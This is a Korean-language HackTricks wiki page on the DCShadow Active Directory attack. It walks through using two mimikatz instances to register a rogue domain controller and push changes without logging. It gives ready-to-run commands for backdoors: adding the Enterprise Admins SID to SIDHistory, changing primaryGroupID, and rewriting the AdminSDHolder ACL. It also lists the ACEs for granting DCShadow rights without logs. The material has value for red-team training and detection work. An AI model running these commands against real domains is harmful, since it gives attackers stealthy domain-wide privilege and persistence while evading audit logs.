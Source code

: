 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

AD에 **새 도메인 컨트롤러**를 등록하고 이를 사용하여 지정된 객체에 **속성**(SIDHistory, SPNs...)을 **로그**를 남기지 않고 **푸시**합니다. **DA** 권한이 필요하며 **루트 도메인** 내에 있어야 합니다.\
잘못된 데이터를 사용하면 매우 불쾌한 로그가 나타날 수 있습니다.

공격을 수행하려면 2개의 mimikatz 인스턴스가 필요합니다. 하나는 SYSTEM 권한으로 RPC 서버를 시작하며(여기서 수행할 변경 사항을 지정해야 함), 다른 인스턴스는 값을 푸시하는 데 사용됩니다:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DA 또는 유사 권한 필요" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`**는 `mimikatz1` 세션에서 작동하지 않음을 주의하세요. 이는 스레드의 권한을 상승시키지만, 우리는 **프로세스의 권한**을 상승시켜야 합니다.\
"LDAP" 객체를 선택할 수도 있습니다: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

DA 또는 최소한의 권한을 가진 사용자로부터 변경 사항을 푸시할 수 있습니다:

* **도메인 객체**에서:
* _DS-Install-Replica_ (도메인에서 복제본 추가/제거)
* _DS-Replication-Manage-Topology_ (복제 토폴로지 관리)
* _DS-Replication-Synchronize_ (복제 동기화)
* **구성 컨테이너**의 **사이트 객체** (및 그 자식들):
* _CreateChild and DeleteChild_
* **DC로 등록된 컴퓨터의 객체**:
* _WriteProperty_ (쓰기 아님)
* **대상 객체**:
* _WriteProperty_ (쓰기 아님)

[**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)를 사용하여 비권한 사용자에게 이러한 권한을 부여할 수 있습니다 (이로 인해 일부 로그가 남게 됩니다). 이는 DA 권한을 가지는 것보다 훨씬 더 제한적입니다.\
예를 들어: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  이는 _**mcorp-student1**_ 머신에 로그인한 사용자 이름 _**student1**_이 객체 _**root1user**_에 대해 DCShadow 권한을 가지고 있음을 의미합니다.

## DCShadow를 사용하여 백도어 생성하기

{% code title="SIDHistory에 사용자로서 Enterprise Admins 설정" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="주 그룹 ID 변경 (사용자를 도메인 관리자 그룹의 구성원으로 추가)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolder의 ntSecurityDescriptor 수정 (사용자에게 전체 제어 권한 부여)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow 권한 부여하기 (수정된 권한 로그 없음)

다음 ACE를 사용자 SID와 함께 추가해야 합니다:

* 도메인 객체에서:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* 공격자 컴퓨터 객체에서: `(A;;WP;;;UserSID)`
* 대상 사용자 객체에서: `(A;;WP;;;UserSID)`
* 구성 컨테이너의 사이트 객체에서: `(A;CI;CCDC;;;UserSID)`

객체의 현재 ACE를 가져오려면: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

이 경우 **여러 변경을** 해야 한다는 점에 유의하세요, 단 하나의 변경만이 아닙니다. 따라서 **mimikatz1 세션** (RPC 서버)에서 변경하고자 하는 각 변경에 대해 **`/stack`** 매개변수를 사용하세요. 이렇게 하면 **`/push`**를 한 번만 수행하여 모든 스택된 변경을 악성 서버에서 수행할 수 있습니다.

[**DCShadow에 대한 더 많은 정보는 ired.team에서 확인하세요.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
